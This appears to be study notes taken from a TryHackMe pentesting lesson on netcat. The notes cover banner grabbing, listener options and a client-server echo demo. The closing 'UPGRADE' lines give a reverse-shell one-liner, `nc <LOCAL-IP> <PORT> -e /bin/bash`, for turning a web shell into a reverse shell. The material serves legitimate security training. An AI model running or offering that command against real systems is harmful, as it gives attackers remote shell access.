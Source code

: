 Netcat or simply `nc` has different applications that can be of great value to a pentester. Netcat supports both TCP and UDP protocols. It can function as a client that connects to a listening port; alternatively, it can act as a server that listens on a port of your choice. Hence, it is a convenient tool that you can use as a simple client or server over TCP or UDP.

First, you can connect to a server, as you did with Telnet, to collect its banner using `nc MACHINE_IP PORT`, which is quite similar to our previous `telnet MACHINE_IP PORT`. Note that you might need to press SHIFT+ENTER after the GET line.

Pentester Terminal

           `pentester@TryHackMe$ nc MACHINE_IP 80 GET / HTTP/1.1 host: netcat  HTTP/1.1 200 OK Server: nginx/1.6.2 Date: Tue, 17 Aug 2021 11:39:49 GMT Content-Type: text/html Content-Length: 867 Last-Modified: Tue, 17 Aug 2021 11:12:16 GMT Connection: keep-alive ETag: "611b9990-363" Accept-Ranges: bytes ...`
        

In the terminal shown above, we used netcat to connect to MACHINE_IP port 80 using `nc MACHINE_IP 80`. Next, we issued a get for the default page using `GET / HTTP/1.1`; we are specifying to the target server that our client supports HTTP version 1.1. Finally, we need to give a name to our host, so we added on a new line, `host: netcat`; you can name your host anything as this has no impact on this exercise.

Based on the output `Server: nginx/1.6.2` we received, we can tell that on port 80, we have Nginx version 1.6.2 listening for incoming connections.

You can use netcat to listen on a TCP port and connect to a listening port on another system.

On the _server_ system, where you want to open a port and listen on it, you can issue `nc -lp 1234` or better yet, `nc -vnlp 1234`, which is equivalent to `nc -v -l -n -p 1234`, as you would remember from the [Linux](https://tryhackme.com/module/linux-fundamentals) room. The exact order of the letters does not matter as long as the port number is preceded directly by `-p`.

|option|meaning|
|---|---|
|-l|Listen mode|
|-p|Specify the Port number|
|-n|Numeric only; no resolution of hostnames via DNS|
|-v|Verbose output (optional, yet useful to discover any bugs)|
|-vv|Very Verbose (optional)|
|-k|Keep listening after client disconnects|

Notes:

- the option `-p` should appear just before the port number you want to listen on.
- the option `-n` will avoid DNS lookups and warnings.
- port numbers less than 1024 require root privileges to listen on.

On the _client_-side, you would issue `nc MACHINE_IP PORT_NUMBER`. Here is an example of using `nc` to echo. After you successfully establish a connection to the server, whatever you type on the client-side will be echoed on the server-side and vice versa.

Consider the following example. On the server-side, we will listen on port 1234. We can achieve this with the command `nc -vnlp 1234` (same as `nc -lvnp 1234`). In our case, the listening server has the IP address `MACHINE_IP`, so we can connect to it from the client-side by executing `nc MACHINE_IP 1234`. This setup would echo whatever you type on one side to the other side of the TCP tunnel. You can find a recording of the process below. Note that the listening server is on the left side of the screen.

**UPGRADE**
-[[rlwrap]]
-`nc <LOCAL-IP> <PORT> -e /bin/bash` turn a web shell into a reverse shell (execute the command in the web shell)